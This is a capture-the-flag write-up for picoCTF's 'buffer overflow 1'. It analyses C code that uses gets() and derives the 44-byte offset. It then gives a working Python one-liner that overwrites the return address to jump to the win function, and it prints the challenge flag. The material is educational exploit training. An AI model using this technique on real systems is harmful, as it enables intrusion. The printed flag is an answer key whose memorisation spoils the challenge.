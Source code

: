 # buffer overflow 1
## Question
>Okay now you're cooking! This time can you overflow the buffer and return to the flag function in this [program](files/vuln)? You can find it in `/problems/buffer-overflow-1_1_8a16ff6a1b3cfb2e42c08d9090051a5d` on the shell server. [Source](files/vuln.c).

## Hint
>This time you're actually going to have to control that return address!

>Make sure you consider Big Endian vs Little Endian.

# Solution
Let's see what the code looks like. Below is the `main` function:

```c
int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

It doesn't take any argument but prompts for a string and calls the `vuln` function. This latest stores this string to a buffer with a size of 32 bytes, using `gets`, which is a bad idea. Then, it displays the memory address where it landed.

```c
void vuln(){
  char buf[BUFSIZE];
  gets(buf);

  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}
```

Now, we have a function calls `win` that displays the flag:

```c
void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}
```

At this stage, it is obvious that we have to overflow the buffer to call the `win` function. Let's test the executable.

~~~~
$ ./vuln 
Please enter your string: 
whatever
Okay, time to return... Fingers Crossed... Jumping to 0x80486b3
$ python -c "print 'A'*32" | ./vuln 
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x80486b3
$ python -c "print 'A'*44" | ./vuln
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x8048600
Segmentation fault (core dumped)
$ python -c "print 'A'*48" | ./vuln
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x41414141
Segmentation fault (core dumped)
~~~~

OK, let's get the address of the `win` function:
~~~~
$ readelf -s vuln
[SNIP]
65: 00000000     0 FUNC    GLOBAL DEFAULT  UND __libc_start_main@@GLIBC_
66: 080486d0    93 FUNC    GLOBAL DEFAULT   14 __libc_csu_init
67: 080485cb   100 FUNC    GLOBAL DEFAULT   14 win
68: 00000000     0 FUNC    GLOBAL DEFAULT  UND setvbuf@@GLIBC_2.0
69: 00000000     0 FUNC    GLOBAL DEFAULT  UND fopen@@GLIBC_2.1
70: 0804a044     0 NOTYPE  GLOBAL DEFAULT   26 _end
[SNIP]
~~~~

Now that we know that the `win` function is located at memory address `0x080485cb`, we can write our payload. We can use python for that:
~~~~
$ python
Python 2.7.12 (default, Oct  8 2019, 14:14:10) 
[GCC 5.4.0 20160609] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> import struct
>>> print repr(struct.pack('<I', 0x080485cb))
'\xcb\x85\x04\x08'
~~~~

Note: the code above returns a bytes object containing the value `0x80485cb` packed as unsigned int (`I`) in little endian (`<`).

OK, now let's exploit:
~~~~
$ python -c "import struct; print 'A'*44 + struct.pack('<I', 0x080485cb)" | ./vuln
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x80485cb
picoCTF{addr3ss3s_ar3_3asy14941911}Segmentation fault (core dumped)
~~~~

# Flag
`picoCTF{addr3ss3s_ar3_3asy14941911}`
